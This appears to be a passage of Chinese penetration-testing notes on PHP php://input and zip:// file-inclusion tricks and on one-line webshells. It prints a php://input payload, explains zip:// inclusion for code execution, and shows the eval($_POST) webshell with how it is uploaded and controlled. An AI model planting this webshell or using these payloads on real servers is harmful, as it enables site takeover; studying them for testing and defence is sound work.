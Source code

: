 <font style="color:rgb(77, 77, 77);">例如：</font>

[http://127.0.0.1/cmd.php?cmd=php://input](http://127.0.0.1/cmd.php?cmd=php://input)

<font style="color:rgb(77, 77, 77);">POST数据：<?php phpinfo()?></font>

<font style="color:rgb(77, 77, 77);">注意：</font>

<font style="color:rgb(77, 77, 77);">当enctype="multipart/form-data"的时候 php://input` 是无效的</font>

<font style="color:rgb(77, 77, 77);">遇到file_get_contents()要想到用php://input绕过</font>

#### <font style="color:rgb(79, 79, 79);">6 zip://</font>
<font style="color:rgb(77, 77, 77);">zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。</font>

```plain
zip://中只能传入绝对路径。
要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
只需要是zip的压缩包即可，后缀名可以任意更改。
相同的类型的还有zlib://和bzip2://
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731483456000-93f8731c-4a4f-4866-9998-a2419b397385.png)

本文参考链接[链接](https://blog.csdn.net/cosmoslin/article/details/120695429?ops_request_misc=%257B%2522request%255Fid%2522%253A%252228579CCC-1D95-4F8C-AEA8-738D2D0C590C%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=28579CCC-1D95-4F8C-AEA8-738D2D0C590C&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-120695429-null-null.142^v100^pc_search_result_base7&utm_term=php%E4%BC%AA%E5%8D%8F%E8%AE%AE&spm=1018.2226.3001.4187)

### 一句话木马
主要参考文章：[链接](https://blog.csdn.net/weixin_39190897/article/details/86772765?ops_request_misc=%257B%2522request%255Fid%2522%253A%252209B31737-A115-41DD-BFCA-63527FE4A2BF%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=09B31737-A115-41DD-BFCA-63527FE4A2BF&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-86772765-null-null.142^v100^pc_search_result_base7&utm_term=%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%ACphp%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0&spm=1018.2226.3001.4187)

#### <font style="color:rgb(79, 79, 79);">概述：</font>
<font style="color:rgb(77, 77, 77);">在很多的渗透过程中，渗透人员会上传一句话木马（</font>**<font style="color:rgb(77, 77, 77);">简称Webshell</font>**<font style="color:rgb(77, 77, 77);">）到目前web服务目录继而提权获取系统权限，不论asp、php、jsp、aspx都是如此</font>

<font style="color:rgb(77, 77, 77);">先来看看最简单的一句话木马：</font>

```plain
   <?php @eval($_POST['attack']);?>
```

【基本原理】利用文件上传漏洞，往目标网站中上传一句话木马，然后你就可以在本地通过中国菜刀或中国蚁剑即可获取和控制整个网站目录。@表示后面即使执行错误，也不报错。eval（）函数表示括号内的语句字符串什么的全都当做代码执行。$_POST['attack']表示从页面中获得attack这个参数值。

#### <font style="color:rgb(79, 79, 79);">入侵条件：</font>
<font style="color:rgb(77, 77, 77);">其中，只要攻击者满足三个条件，就能实现成功入侵：</font>

```plain
木马上传成功，未被杀；
知道木马的路径在哪；
上传的木马能正常运行。
```
